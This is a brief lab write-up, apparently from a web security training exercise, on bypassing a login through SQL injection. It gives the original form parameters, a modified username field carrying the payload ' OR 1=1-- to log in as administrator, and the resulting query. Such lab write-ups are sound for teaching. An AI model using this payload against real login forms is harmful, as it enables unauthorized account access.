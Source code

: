 # Lab - SQL injection vulnerability allowing login bypass


>Perform an SQL injection attack that logs in to the application as the administrator user. 


Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator' OR 1=1 -- 'AND password='fahmi'
```


